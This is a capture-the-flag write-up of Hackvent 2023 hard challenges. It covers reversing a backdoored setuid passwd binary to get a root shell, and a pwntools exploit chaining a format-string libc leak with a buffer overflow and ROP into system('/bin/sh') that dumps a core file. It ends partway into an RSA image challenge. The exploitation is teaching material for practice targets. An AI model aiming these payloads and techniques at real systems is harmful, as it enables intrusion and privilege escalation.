


# Hackvent 2023 - Hard

[ctf](/tags#ctf ) [hackvent](/tags#hackvent ) [linux-forensics](/tags#linux-
forensics ) [backdoor](/tags#backdoor ) [dpkg](/tags#dpkg ) [dpkg-
verify](/tags#dpkg-verify ) [virus-total](/tags#virus-total )
[ghidra](/tags#ghidra ) [reverse-engineering](/tags#reverse-engineering )
[docker](/tags#docker ) [gdb](/tags#gdb ) [debugging](/tags#debugging )
[bof](/tags#bof ) [python](/tags#python ) [pwntools](/tags#pwntools ) [format-
string](/tags#format-string ) [libc](/tags#libc ) [ropgadget](/tags#ropgadget
) [rsa](/tags#rsa ) [exiftool](/tags#exiftool ) [python-pil](/tags#python-pil
) [arduino](/tags#arduino ) [atmel-avr](/tags#atmel-avr )
[minecraft](/tags#minecraft ) [log4j](/tags#log4j )
[log4shell](/tags#log4shell ) [cve-2021-44228](/tags#cve-2021-44228 )
[setuid](/tags#setuid ) [setresuid](/tags#setresuid ) [dotnet](/tags#dotnet )
[dotpeek](/tags#dotpeek ) [bruteforce](/tags#bruteforce )
[csharp](/tags#csharp ) [visual-studio](/tags#visual-studio )  
  
Jan 2, 2024

  * [easy](/hackvent2023/easy)
  * [medium](/hackvent2023/medium)
  * hard
  * [leet](/hackvent2023/leet)

The hard challenges really took it up a level. My favorite was a .NET web
application where I have to crack a licence key. There’s also finding and
reversing a backdoored passwd binary, some binary exploitation where I have to
crash the server to preserve the flag and read it from the dump, RSA via an
image, USB forensics, and exploiting a Minecraft server with Log4Shell.

## HV23.15

### Challenge

 | HV23.15 pREVesc  
---|---  
Categories: |  LINUX  
REVERSE_ENGINEERING  
Level: | hard  
Author: |  coderion   
  
> We recently changed the root password for santa as he always broke our
> system. However, I think he has hidden some backdoor in there. Please help
> us find it to save christmas!
>
> * * *
>
> Login to the SSH server with the following credentials:
>
>   * `username`: `challenge`
>   * `password`: `challenge`
>

>
> Start the Docker, login via SSH and get the flag!

### Find Backdoor

#### Strategy

There are a few important clues in the challenge metadata. For one, the
categories are Linux and Reverse Engineering (and not Forensic). That is a
strong indication that I’m looking for a binary. The prompt uses the term
“backdoor”, which frames the challenge as I need to find the backdoored
binary. This typically means something that when some unusual input is given,
it returns a root shell.

There is also a very literal reading of the prompt. “We changed the root
password, and there’s a backdoor hidden in there”. A casual reading suggests
“there” is on the box. But it could also mean “in the spot where the root
password was changed”.

The `passwd` binary is the one that’s backdoored. I’ll show a few methods for
identifying it.

#### SetUID / Timestamps

A pretty standard query when looking for Linux privileges escalation is using
`find` to find SetUID binaries:

    
    
    challenge:~$ find / -perm -4000 -ls 2>/dev/null
    939547855     72 -rwsr-xr-x   1 root     root        72792 Nov 23  2022 /usr/bin/chfn
    939547872     44 -rwsr-xr-x   1 root     root        44760 Nov 23  2022 /usr/bin/chsh
    940410286     76 -rwsr-xr-x   1 root     root        76248 Nov 23  2022 /usr/bin/gpasswd
    940794532     52 -rwsr-xr-x   1 root     root        51584 Oct  5 21:27 /usr/bin/mount
    940794537     40 -rwsr-xr-x   1 root     root        40664 Nov 23  2022 /usr/bin/newgrp
    604414791    132 -rwsr-xr-x   1 root     root       132552 Dec 12 21:53 /usr/bin/passwd
    940410852     56 -rwsr-xr-x   1 root     root        55680 Oct  5 21:27 /usr/bin/su
    940410878     36 -rwsr-xr-x   1 root     root        35200 Oct  5 21:27 /usr/bin/umount
      1301175     36 -rwsr-xr--   1 root     messagebus    34960 Sep 15 09:42 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    201585028    328 -rwsr-xr-x   1 root     root         334440 Aug 24 13:20 /usr/lib/openssh/ssh-keysign
    

On first glance, all of these seem normal. They are all binaries that
typically have the SetUID bit set on a Linux system, and need it to function.

But the timestamp on `passwd` stands out. Everything else was last modified in
November or earlier, whereas `passwd` was updated on Dev 12, just two days
before the challenge released.

#### Timestamp + Executable

Without starting with SetUID, I could also look for things modified in the
last 10 days:

    
    
    challenge:~$ find / -type f -mtime -10 -ls 2>/dev/null | wc -l
    45579
    

There’s a ton. But, I know I want an executable. I’ll need to be owned by a
privileged group, and something I can execute as challenge. challenge doesn’t
have any extra groups, so it’ll need to be executable by all. I can use a
regex to filter for the permissions string where the all execute bit is “x”:

    
    
    challenge:~$ find / -type f -mtime -10 -ls 2>/dev/null | grep -P " .........x "
     604414791    132 -rwsr-xr-x   1 root      root         132552 Dec 12 21:53 /usr/bin/passwd
     134653242      0 -rwxr-xr-x   1 root      root              0 Dec 15 14:29 /.dockerenv
    

Only two results, and one is empty. The other is `passwd`.

#### dpkg

`dpkg` has a `--verify` flag that is very useful here (shoutout to HaCk0 in
the Hackvent Discord for this). Like the `find` command above, it generates a
ton of output:

    
    
    challenge:~$ dpkg --verify
    missing     /usr/share/doc/libip4tc2/NEWS.Debian.gz
    missing     /usr/share/doc/libexpat1/AUTHORS
    missing     /usr/share/doc/bash/COMPAT.gz
    missing     /usr/share/doc/bash/INTRO.gz
    missing     /usr/share/doc/bash/NEWS.gz
    missing     /usr/share/doc/bash/POSIX.gz
    missing     /usr/share/doc/bash/RBASH
    missing     /usr/share/doc/bash/README.Debian.gz
    missing     /usr/share/doc/bash/README.abs-guide
    missing     /usr/share/doc/bash/README.commands.gz
    ...[snip]...
    challenge@9b22d53a-4c85-4dd2-a26c-c54246d41fb1:~$ dpkg --verify | wc -l
    2336
    

Most of the lines seem to start with “missing”. They also seem to be a lot of
docs. If I remove any lines that start with missing, there’s only one result
left:

    
    
    challenge:~$ dpkg --verify | grep -v "^missing"
    ??5??????   /usr/bin/passwd
    

The `?` indicates that the check could not be run run. The `5` incidates that
the MD5 hash verification failed! That’s a great indication this file has been
messed with.

#### Virus Total

If I have any itch that something might be going on with `passwd`, I can
upload it (or it’s hash) to VirusTotal. If it’s not there, then that’s
definitely not a legit Linux binary, which was the case when I first solved
this challenge.

Now it is there, and on the [details
page](https://www.virustotal.com/gui/file/a297ac087eb2cb841eb2b415d85b3d8120433c30be3c7ca84c92d72f7753bbaa/details),
I’ll see the upload history:

This binary first became aware to VT after the challenge opened. Definitely
suspect.

If I search for the legit `passwd` from my Ubuntu 23.04 host, I’ll find it’s
been there for many months:

### Reverse

#### Find Backdoor

I’ll download the file and open it with Ghidra. I’ll start by looking at the
strings. Scrolling through the list, a group of strings jumps out as odd /
interesting:

Three strings mentioning “salami”, and then `/bin/bash -p`. I’ll look for
references to 11362d (“SALAMI”), and there’s only on, in the `main` function:

It’s checking for the “SALAMI” environment variable and if it’s not set,
printing the next “salami” string and exiting. If that environment variable is
set, there’s a series of XORs with stack strings, and then a `strcmp`:

I did change the variable types for the stack strings to `byte[16]` and
`byte[48]` respectively. It annoyingly makes them take up a lot of space, but
the loops look really nice.

So if the `SALAMI` env variable is set, it compares it to this 0x2b long
string, and if they match, gives a shell as root.

#### Trigger Backdoor

In just running `passwd`, I’m not able to get it to complain that my `SALAMI`
isn’t set. Back where it checks for the variable, the code is right under the
label in Ghidra `switchD_001055b7_caseD_45`. Scrolling up in `main` to that
address, there is a `switch`, and the first case is to the label I want to
reach:

A bit of exploring shows that this is where it is processing arguments that
start with a `-` and have a single character. If that’s the case, I need to
give 0x45, which is `-E`. It works:

    
    
    challenge:~$ passwd -E
    Why u givin' me no salami?!
    

#### Decode Secret

There are two XOR loops. The first takes 12 bytes from the stack and XORs the
first six bytes with another six bytes starting at seven:

I’ll copy those bytes and reformat them quickly in `vim`, and then load
python:

    
    
    oxdf@hacky$ python
    Python 3.11.6 (main, Oct 23 2023, 22:48:54) [GCC 11.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> s1 = bytes.fromhex("1d041a041f0e006e65766572676f6e")
    >>> ''.join(chr(x^y) for x,y in zip(s1[:6], s1[7:]))
    'salami'
    

The first key is “salami” (not surprising at this point).

The next loop takes a longer stack string and XORs it up to 0x2b bytes with
“salami” (repeating):

`key1i2 + (int)((i2 & 0xffffffff) / 6) * -6]` is a clever way to get
the `(i mod 6)` item from the string. Basically, each time i grows bigger than
a multiple of 6, then 6 more is subtracted from it.

I’ll grab the bytes and reformat in `vim` (being careful to note that 10 is
not the same as 0x10), and drop it into `python`:

    
    
    >>> s2 = bytes.fromhex("1b1518111e535c4e1b161a470a0e1915180b164f0f0e0046040018020556055c08301a5d04583b06350a22")
    

`cycle` is a tool that will let me loop over a buffer indefinitely. When used
on a small string (like “salami” here) with `zip`, it effectively gives what
I’m looking for:

    
    
    >>> from itertools import cycle
    >>> ''.join(chr(x^y) for x,y in zip(cycle(b"salami"), s2))
    'https://www.youtube.com/watch?v=dQw4w9WgXcQ'
    

Of course this is a YouTube video of a Rick Roll.

#### Alternative: Docker

I’ll start a Docker container with Ubuntu 23.10:

    
    
    oxdf@hacky$ docker run -it --rm ubuntu:23.10 bash
    root@746874c38eca:/#
    

In a different terminal, I’ll find the name of this container and copy the
backdoored binary into it:

    
    
    oxdf@hacky$ docker ps
    CONTAINER ID   IMAGE          COMMAND   CREATED         STATUS         PORTS     NAMES
    746874c38eca   ubuntu:23.10   "bash"    5 seconds ago   Up 5 seconds             goofy_agnesi
    oxdf@hacky$ docker cp passwd goofy_agnesi:/
    Successfully copied 134kB to goofy_agnesi:/
    

If I try to run it, I’ll get an error:

    
    
    root@746874c38eca:/# ./passwd 
    ./passwd: error while loading shared libraries: libbsd.so.0: cannot open shared object file: No such file or directory
    

`apt install libbsd0` will fix that, and it runs:

    
    
    root@746874c38eca:/# ./passwd -E
    Why u givin' me no salami?!
    

I’ll install `gdb` and `git` with `apt`, and then
[Peda](https://github.com/longld/peda). Then I’ll debug `passwd`:

    
    
    root@746874c38eca:/# SALAMI=TESTPASSWORD gdb -q ./passwd
    Reading symbols from ./passwd...
    (No debugging symbols found in ./passwd)
    gdb-peda$
    

The `main` starts at 00105490 and `strcmp` shows up at 00105874 in Ghidra. I
find the easiest way to break is to start with a break point at main, then run
to that.

    
    
    gdb-peda$ b main
    Breakpoint 1 at 0x5490                      
    gdb-peda$ run -E             
    Starting program: /passwd -E
    ...[snip]...
    

The “code” block shows the start of `main` at 0x55a34786c490:

    
    
    [-------------------------------------code-------------------------------------]
       0x55a34786c47d <commonio_close.part.0.cold+12>:      jmp    0x55a34787535a <commonio_close.part.0+1002>
       0x55a34786c482:      cs nop WORD PTR [rax+rax*1+0x0]
       0x55a34786c48c:      nop    DWORD PTR [rax+0x0]
    => 0x55a34786c490 <main>:       endbr64
       0x55a34786c494 <main+4>:     push   r15
       0x55a34786c496 <main+6>:     push   r14
       0x55a34786c498 <main+8>:     push   r13
       0x55a34786c49a <main+10>:    push   r12
    

I’ll calculate the offset, and put a break there:

    
    
    gdb-peda$ p 0x55a34786c490 - 0x00105490 + 0x00105874
    $1 = 0x55a34786c874
    gdb-peda$ b *0x55a34786c874
    Breakpoint 2 at 0x55a34786c874
    

Now when I enter “c” to continue, it breaks at the comparison:

It’s comparing my input to the URL I need.

#### Solve

I’ll run `passwd -E` with the url set as the `SALAMI` environment variable:

    
    
    challenge:~$ SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
    Enjoy your salami!
    root@5758f563-7d3b-4f9f-86b3-9da328f60153:/home/challenge#
    

The result is a root shell, where I can read the flag from root’s home
directory:

    
    
    root:/root# cat flag.txt 
    HV23{3v1l_p455wd}
    

**Flag:`HV23{3v1l_p455wd}`**

## HV23.16

### Challenge

 | HV23.16 Santa's Gift Factory  
---|---  
Categories: |  EXPLOITATION   
Level: | hard  
Author: |  Fabi_07   
  
> Did you know that Santa has its own factory for making gifts? Maybe you can
> exploit it to get your own special gift!
>
> * * *
>
> The `socat` command in the Dockerfile has the argument `raw`, which should
> not be there.
>
> **Please note that the flag gets replaced once you interact with the
> service**. The reason behind this is to avoid Remote Code Execution exploits
> from allowing you to get the flag (basically to force a specific way of
> exploiting). If you have a working exploit, restart the Docker to get a
> chance to get the flag.
>
> If your exploit works only against a local Docker, it is recommended to keep
> trying a few times against the remote Docker if it does not work instantly.
>
> Start the service, exploit it and get the flag!
>
> Flag format: `HV23{}`

The download has (some parts of) the application.

### Enumeration

#### Service

Connecting to the service provides a text interaction:

    
    
    oxdf@hacky$ nc 152.96.15.4 1337
    🎁🎁🎁   Santa's gift factory   🎁🎁🎁
    Welcome generous helper, can you help Santa with the presents? As a token of his gratitude, he will give you the 🏁 at the end.
    Are you willing to help him (y/n)?
    

I’ll answer the questions:

    
    
    oxdf@hacky$ nc 152.96.15.4 1337
    🎁🎁🎁   Santa's gift factory   🎁🎁🎁
    Welcome generous helper, can you help Santa with the presents? As a token of his gratitude, he will give you the 🏁 at the end.
    Are you willing to help him (y/n)? y
    
    Santa: Great thanks for helping me.
    Santa: Can you count the different Presents and tell me how many of each i need?
    
     - yellow
     - red
     - blue
     - yellow
     - yellow
     - red
     - red
     - yellow
     - red
     - red
     - yellow
     - red
     - yellow
     - red
     - yellow
     - blue
     - blue
     - red
     - blue
     - red
    
    Santa: How many red presents are needed?
     > 9
    Santa: And how many yellow presents are needed?
     > 7
    Santa: And how many blue presents are needed?
     > 4
    
    Santa: Well done, now you may get the flag.
    Santa: One last thing, can you tell me your name?
     > 0xdf
    
    Santa: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely. All I can give you is this: HV23{. I am very sorry about this and would like to apologise for the inconvenience.
    
    Santa: Can I assist you with anything else?
     > no :(
    
    Santa: You want me to help you with no :(?
    Santa: I will see what I can do...
    

It claims it will give the flag, but only gets the first five bytes. If I run
it again, the first five bytes have changed:

    
    
    Santa: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely. All I can give you is this: Nothi. I am very sorry about this and would like to apologise for the inconvenience.
    

Only the first time on each instance does it show the start of a flag. This is
the flag getting replaced.

#### Download

The download has two files:

    
    
    oxdf@hacky$ unzip -l santas-gift-factory.zip 
    Archive:  santas-gift-factory.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          195  2023-12-15 21:05   Dockerfile
        16896  2023-11-13 20:21   vuln
    ---------                     -------
        17091                     2 files
    

`Dockerfile` shows that `vuln` is run via `socat` to host it on a socket.
`vuln` is an ELF executable:

    
    
    oxdf@hacky$ file vuln 
    vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b2552f807e0055788d01bd97f7047b17ff06677f, for GNU/Linux 3.2.0, not stripped
    

### Reverse Engineering

#### main / tasks

Ghidra shows the `main` function simply handles up through the first question,
calling `tasks` if the player enters “y”:

    
    
    int main(void)
    
    {
      char input;
      
      setvbuf(stdin,(char *)0x0,2,0);
      setvbuf(stdout,(char *)0x0,2,0);
      setvbuf(stderr,(char *)0x0,2,0);
      printf(&DAT_00102410);
      input = getchr("\nAre you willing to help him (y/n)? ");
      if (input == 'y') {
        task();
      }
      else {
        error("I am sorry, but I am unable to help you any further.\n");
      }
      return 0;
    }
    

`tasks` is not super interesting. It seeds random with the current time and
then generates 20 presents of red, blue, or yellow, printing them and then
asking the questions. User input is read with `scanf`. If I answer correctly,
it calls `tellflag`. Otherwise it prints a message and exits.

#### tellflag

The `tellflag` function is important:

    
    
    void tellflag(void)
    
    {
      int res;
      size_t bytes_read;
      undefined flag [6];
      char help_with [136];
      undefined8 name;
      int end_of_flag;
      FILE *h_flag;
      
      h_flag = fopen("flag","r");
      if (h_flag == (FILE *)0x0) {
        error("Opening flag file failed!!! Please contact the admins.");
      }
      bytes_read = fread(flag,1,5,h_flag);
      end_of_flag = (int)bytes_read;
      flag[end_of_flag] = 0;
      res = fclose(h_flag);
      if (res < 0) {
        error("Closing flag file failed!!! Please contact the admins.");
      }
      system("./magic.sh");
      name = getstr("Santa: One last thing, can you tell me your name?");
      printf("\nSanta: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely . All I can give you is this: %s. I am very sorry about this and would like to apologise for the i nconvenience.\n"
             ,flag);
      gets("\nSanta: Can I assist you with anything else?");
      printf("\nSanta: You want me to help you with ");
      printf(help_with);
      puts("?\nSanta: I will see what I can do...");
      return;
    }
    

The program only reads the first five bytes of `flag`, which is why the
partial flag is shown. It’s also clear that `magic.sh` must be overwriting
`flag` with something else, which is why any time after the first run, I don’t
get “HV23{“ but “Nothi” (starting of “Nothing”?).

The Ghidra decompile is a bit messed up in how it’s showing the prints and the
`gets`, but the general idea is clear. Two potential issues are quickly
apparent:

  1. If it’s using `gets` to read my input into a variable (it’s the `help_with` variable), that is likely vulnerable to a buffer overflow.
  2. The call to `printf(help_with)` is vulnerable to a format string vulnerability.

#### Debug

To debug this, I’ll create a `magic.sh` (empty file is fine, must be
executable) and a `flag` with some fake flag in it. Then I’ll build the
container from the `Dockerfile` and install `gdb` and
[Peda](https://github.com/longld/peda) in the container.

When I run and debug, I’ll notice something really interesting. If I look at
where `magic.sh` is called with `system`, the full flag is in memory:

Apparently this has to do with how LIBC reads files, so that even though only
five bytes are read, a much large block is cached on the heap.

### Shell

#### Strategy

My goal is to crash the program on the first run. This will hopefully create a
core dump. Then I’m going to exploit the system and get a shell on the box.
While the flag will be gone, I can find it in the coredump.

To exploit this, I have another challenge. I’ll need to leak a LIBC address
with the format string vulnerability in order to craft the overflow payload,
but my input that generates the format string exploit and the buffer overflow
is the same input. To solve this, I’ll first send a payload that will leak
addresses from the stack and the overflow will simply modify the low byte of
the return so that instead of going to the next instruction after the `call
tellflag`, it goes to that call, and calls it again! To do this, I don’t need
to know the full address (PIE would prevent this), but only the low byte which
isn’t changing. Then with the leak, I can craft a ROP to call
`system(''/bin/sh')`.

#### Overflow Distance

In `gdb` (with [Peda](https://github.com/longld/peda)), I’ll create a pattern:

    
    
    gdb-peda$ pattern_create 200
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
    

I’ll run, answering the questions manually, and enter that as the “anything
else”:

    
    
    Santa: Can I assist you with anything else?
     > AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    
    Santa: You want me to help you with AAA0X0.07FFFFFFFDA28P-1022AsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAAp
    AATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA?
    Santa: I will see what I can do...
    
    Program received signal SIGSEGV, Segmentation fault. 
    Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
    Use 'set logging enabled off'.
    

It crashes. In 64-bit programs, this happens when the bad address is about to
be loaded from the stack into RIP. The top of the stack shows the pattern:

Passing that to `pattern_offset` shows it’s 168 bytes to the overwrite:

    
    
    gdb-peda$ pattern_offset VAAtAAWAAuAAXAAv
    VAAtAAWAAuAAXAAv found at offset: 168
    

#### Get to tellflag

I’ll use [PwnTools](https://docs.pwntools.com/en/stable/) to interact with the
service. I’ll start by creating a remote connection and getting the number of
each present:

    
    
    r = remote(ip, 1337)
    r.recvuntil(b"(y/n)? ")
    r.sendline(b"y")
    r.recvuntil(b"i need?\n\n")
    lines = r.recvuntil(b"\n\n").splitlines()
    c = Counter(l[3:] for l in lines)
    

`c` is now a counter that has the number for each color. That makes it easy to
answer the initial questions:

    
    
    r.recvuntil(b"How many red presents are needed?\n > ")
    r.sendline(str(c[b"red"]).encode())
    r.recvuntil(b"And how many yellow presents are needed?\n > ")
    r.sendline(str(c[b"yellow"]).encode())
    r.recvuntil(b"And how many blue presents are needed?\n > ")
    r.sendline(str(c[b"blue"]).encode())
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"0xdf")
    r.recvuntil(b"else?\n > ")
    

#### Return Address

Last, I need the return address. `tellflag` is called at 1017a0 in Ghidra, and
the return will be to 1017a5:

When this runs, the top 6.5 bytes will be different due to PIE. But as long as
I overwrite the A5 with A0, it’ll return to the place I want. I’ll update the
null above with

#### Find Leak

The way the stack is set up, after a couple not useful values my raw input
will display. As I don’t want to show all of that, I’ll use the `%n$p` format
reference to get the nth value. With some guessing around, I’m able to find
something that looks like it gives a good leak:

    
    
    payload = b"%30$p.%31$p.%32$p.%33$p.%34$p.%35$p.%36$p.%37$p.%38$p.%39$p."
    payload += (168 - len(payload))*b"A"
    payload += b"\x0a"
    
    r.sendline(payload)
    r.recvuntil(b"Santa: You want me to help you with")
    output = r.recvline()
    print(output)
    breakpoint()
    

I’m using the full 168 bytes while looking for the leak so that when I want to
keep running through return, I don’t have to change any offsets. I’ve put A0
after the 168 so that it will return to call `tellflag` again.

When I run this, it prints the leak and pauses:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 172.17.0.2 on port 1337: Done
    [*] Closed connection to 172.17.0.2 port 1337
    [+] Opening connection to 172.17.0.2 on port 1337: Done
    b' 0x8ffffecf8.0x800000004.0x800000014.0x800000004.0x7fffffffebe0.0x555555555858.0x7fffffffecf8.0x100000000.0x1.0x7ffff7ddba90.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0WUUUU?\n'
    > /media/sf_CTFs/hackvent2023/day16/solve.py(53)<module>()
    -> libc_leak = int(output.split(b".")[9], 16) # <__libc_start_call_main+128>
    (Pdb) 
    

The 9th one looks like a LIBC address. In the container I’ll run `gdb -q -p
$(pidof vuln)` to attach to the process. Now I can view that address:

    
    
    gdb-peda$ x/x 0x7ffff7ddba90
    0x7ffff7ddba90 <__libc_start_call_main+128>:    0xe80001b219e8c789
    

I’ll run `vmmap` to get the LIBC base address:

    
    
    gdb-peda$ vmmap
    Start              End                Perm      Name
    ...[snip]...
    0x00007ffff7db8000 0x00007ffff7dda000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7dda000 0x00007ffff7f52000 r-xp      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7f52000 0x00007ffff7faa000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7faa000 0x00007ffff7fae000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7fae000 0x00007ffff7fb0000 rw-p      /usr/lib/x86_64-linux-gnu/libc.so.6
    ...[snip]...
    

It starts at 0x00007ffff7db8000, which is 0x23a90 less than the leak:

    
    
    gdb-peda$ p 0x7ffff7ddba90 - 0x00007ffff7db8000
    $1 = 0x23a90
    

I’ll update my code:

    
    
    r.sendline(payload)
    r.recvuntil(b"Santa: You want me to help you with")
    output = r.recvline()
    libc_leak = int(output.split(b".")[9], 16) # <__libc_start_call_main+128>
    libc_base = libc_leak - 0x23a90
    success(f"Leaked libc base:        {libc_base:016x}")
    

#### system and sh Addresses

I’ll grab a copy of the LIBC from the container (so that I’m sure it’s the
same as the target) and use `readelf` to get the offset to the address of
`system` in LIBC:

    
    
    oxdf@hacky$ readelf -s --wide target_libc | grep " system"
      1022: 000000000004ebf0    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
    

LIBC has the string `/bin/sh` in it, and `strings` will get the address:

    
    
    oxdf@hacky$ strings -a -t x target_libc | grep /bin/sh
     1b51d2 /bin/sh
    

I’ll update my script:

    
    
    bin_sh_addr = libc_base + 0x1b51d2
    system_addr = libc_base + 0x4ebf0
    

#### Gadgets

To call `system('/bin/sh')`, I need to get the address of the string into RDI.
I’ll also want a `ret` gadget for stack alignment. I’ll use
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find gadgets:

    
    
    oxdf@hacky$ ROPgadget --binary target_libc | grep ": ret$"
    0x0000000000023159 : ret
    oxdf@hacky$ ROPgadget --binary target_libc | grep ": pop rdi ; ret$"
    0x00000000000240e5 : pop rdi ; ret
    

I’ll add those to my code:

    
    
    pop_rdi_ret = p64(libc_base + 0x240e5)
    ret_addr = p64(libc_base + 0x23159)
    

#### Payload

The payload is simply a return gadget, then a gadget to pop the sh string into
RDI, and then the address of system:

    
    
    payload2 = b"A"*168
    payload2 += ret_addr
    payload2 += pop_rdi_ret
    payload2 += p64(bin_sh_addr)
    payload2 += p64(system_addr)
    

I’ll add to the script to send this:

    
    
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"0xdf")
    r.recvuntil(b"else?\n > ")
    r.sendline(payload2)
    r.recvuntil(b"can do...\n")
    

Running gives a shell!

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007fa9c8904000
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    

### Get Flag

#### Generate Crash

I’ll add a bit to the start of my script to crash the server:

    
    
    # crash to create core dump
    r = remote(ip, 1337)
    r.recvuntil(b"(y/n)? ")
    r.sendline(b"y")
    r.recvuntil(b"i need?\n\n")
    lines = r.recvuntil(b"\n\n").splitlines()
    c = Counter(l[3:] for l in lines)
    r.recvuntil(b"How many red presents are needed?\n > ")
    r.sendline(str(c[b"red"]).encode())
    r.recvuntil(b"And how many yellow presents are needed?\n > ")
    r.sendline(str(c[b"yellow"]).encode())
    r.recvuntil(b"And how many blue presents are needed?\n > ")
    r.sendline(str(c[b"blue"]).encode())
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"HV")
    r.recvuntil(b"else?\n > ")
    r.sendline(b"A"*300)
    r.close()
    

Then the rest of the script gets a shell. There’s a crashdump in the system
root:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [*] Closed connection to 152.96.15.5 port 1337
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007fc41065a000
    [*] Switching to interactive mode
    $ ls
    Dockerfile
    bin
    boot
    core.8
    dev
    etc
    flag
    home
    importChallenge.log
    lib
    lib32
    lib64
    libx32
    magic.sh
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    vuln
    

I’ll update my script to collect it:

    
    
    r.sendline(payload2)
    r.recvuntil(b"can do...\n")
    r.sendline(b'cat core.8 | gzip | base64 -w0; echo')
    compressed_encoded_dump = r.recvline().decode().strip()
    
    dump = gzip.decompress(base64.b64decode(compressed_encoded_dump))
    with open('dump', 'wb') as f:
        f.write(dump)
    success("Saved coredump as dump")
    
    r.interactive()
    

Now I’ll get a fresh instance, and run again:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [*] Closed connection to 152.96.15.5 port 1337
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007f2141e13000
    [+] Saved coredump as dump
    [*] Switching to interactive mode
    $ 
    

It saved the dump on my system:

    
    
    oxdf@hacky$ file dump 
    dump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from './vuln', real uid: 0, effective uid: 0, real gid: 0, effective gid: 0, execfn: './vuln', platform: 'x86_64'
    

#### Find String

I’ll run `strings` on the dump. Only the partial flag comes back:

    
    
    oxdf@hacky$ strings dump | grep HV23
    HV23{
    

However, if I look for the trailing “}”, it finds the flag:

    
    
    oxdf@hacky$ strings dump | grep }
    {roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}
    

It is important that the username I enter when creating the dump isn’t too
long, or it will overwrite more of the flag. I’m sure it’s also possible to
pull out the address of where the partial flag is in memory using `gdb` like
in [day 14](/hackvent2023/medium#hv2314).

**Flag:`HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}`****

## HV23.17

### Challenge

 | HV23.17 Lost Key  
---|---  
Categories: |  FORENSIC  
CRYPTO  
Level: | hard  
Author: |  darkstar   
  
> After losing another important key, the administrator sent me a picture of a
> key as a replacement. But what should I do with it?

There’s also a download of `flag.enc`, that appears to just be random data.

### Solution

#### Exif Data

The Exif data for the image has a “Comment” field that says “Key Info:
0x10001”:

    
    
    oxdf@hacky$ exiftool 0c56b3c2-b017-4c6f-b6a8-a565df124012.png 
    ExifTool Version Number         : 12.40
    File Name                       : 0c56b3c2-b017-4c6f-b6a8-a565df124012.png
    Directory                       : .
    File Size                       : 4.7 KiB
    File Modification Date/Time     : 2023:12:16 18:01:51-05:00
    File Access Date/Time           : 2023:12:16 18:01:55-05:00
